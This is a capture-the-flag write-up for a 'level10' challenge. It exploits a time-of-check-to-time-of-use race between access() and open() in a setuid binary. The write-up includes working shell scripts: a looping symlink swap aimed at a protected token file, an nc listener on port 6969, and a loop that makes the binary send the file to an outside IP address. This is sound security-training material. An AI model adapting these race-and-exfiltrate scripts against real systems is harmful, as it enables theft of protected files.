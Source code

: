 ## STEPS

### 1. Initial Investigation:
In the home directory, I found an executable named level10 and a file named token. Attempting to execute level10 with token as an argument resulted in denial of access.

I decompiled the level10 executable to understand its behavior. The decompiled code revealed that the program first checks the permissions of the file specified as an argument using the access() function before attempting to open it and send its contents to the host. This behavior creates a security vulnerability, as mentioned in the documentation for the access function.

![alt text](access.png)

### 2.Exploiting the Vulnerability:
Understanding the security hole created by the short time interval between checking permissions and opening the file, I decided to exploit it by creating symbolic links to the token file in a loop. Additionally, I set up a listening server to receive the file sent by the level10 executable.

So I created three shell scripts to exploit the vulnerability:
- The first script sets up a listening server on port 6969 using nc.
```
#!/bin/sh
while :
do
	nc -l 6969
done
```

- The second script creates and deletes a symbolic link to the token file repeatedly.
```
#!/bin/sh
while :
do 
	touch /tmp/t
	rm -rf /tmp/t
	ln -s /home/user/level10/token /tmp/t
	rm -rf /tmp/t
done
```

- The third script executes level10 with the symbolic link as the argument, sending the file to a specific host.
```
#!/bin/sh
while :
do 
	./level10 /tmp/t 10.12.174.84
done
```

I executed the three scripts simultaneously. As a result, the level10 executable attempted to send the file to the specified host multiple times, exploiting the vulnerability in the permission check and eventually revealing the flag.

![alt text](flag.png)

![alt text](level10.png)
